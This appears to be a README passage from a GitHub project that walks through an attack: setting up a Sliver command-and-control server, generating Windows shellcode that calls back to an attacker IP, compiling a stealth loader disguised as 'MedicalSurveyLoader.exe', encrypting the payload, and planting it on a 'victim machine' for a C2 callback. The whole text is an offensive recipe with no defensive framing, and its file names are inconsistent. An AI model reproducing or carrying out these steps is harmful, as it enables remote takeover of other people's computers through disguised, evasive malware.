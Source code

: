 Process To Execute this 
First Install Sliver in your kali machine

# Start the Sliver server (as root)
sliver-server

# In a new terminal window, connect to the server as the client
sliver-client

# Now, within the Sliver client console:
# 1. Create a new HTTP listener on your attacker IP
In sliver client we use run the command “http”

# 2. Generate a Windows staged shellcode payload (raw format)
generate --http http://[ Your attacker machine IP]:80 --os windows --arch amd64 --format shellcode --save /root/payload.bin

Now move this "payload.in bin file in the folder where you have loader.cpp and encrypt.py

# Compile the loader.cpp into Windows executable
x86_64-w64-mingw32-g++ -static -o MedicalSurveyLoader.exe stealth_loader.cpp -lws2_32 -Wl,--subsystem,windows

# Run the encrypt.py
python3 encrypt.py

After Doing all this you will have 4 files with you now to recieve the c2 call back transer the  MedicalSurveyLoader.exe stealth_loader.cpp along with encrypted_payload.bin to the victim machine run it and you will get the c2 call back
